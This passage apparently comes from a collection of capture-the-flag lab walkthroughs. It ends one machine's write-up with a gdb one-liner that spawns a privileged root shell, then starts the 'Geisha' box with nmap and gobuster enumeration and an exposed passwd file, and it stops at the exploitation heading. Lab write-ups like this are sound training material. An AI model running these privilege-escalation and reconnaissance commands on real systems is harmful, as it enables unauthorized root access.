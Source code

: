 This is done as follows &rarr; `gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`.

This grants the root shell and subsequently the root flag.

---

# Geisha

## Enumeration

Machine IP &rarr; `192.168.56.82`

### Network Scan

Nmap scan &rarr; `nmap -sC -A -Pn -p- -o nmap.txt 192.168.56.82`

OS Detection &rarr;  `OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                     |
| -------- | ----------- | ---------------------------------------------- |
| 21       | FTP         | vsftpd 3.0.3                                   |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.38 ((Debian))                 |
| 7080     | HTTPS       | ssl/empowerid LiteSpeed                        |
| 7125     | HTTP        | nginx 1.17.10                                  |
| 8088     | HTTP        | LiteSpeed httpd                                |
| 9198     | HTTP        | SimpleHTTPServer 0.6 (Python 2.7.16)           |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.56.82:<ports> -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

Directories/files listed &rarr;

Port 8088 &rarr;

- cgi-bin/ (404)
- docs/
- blocked/ (403)

Port 7125 &rarr;

- shadow (403)
- passwd

The passwd file lists user `geisha`.

## Exploitation
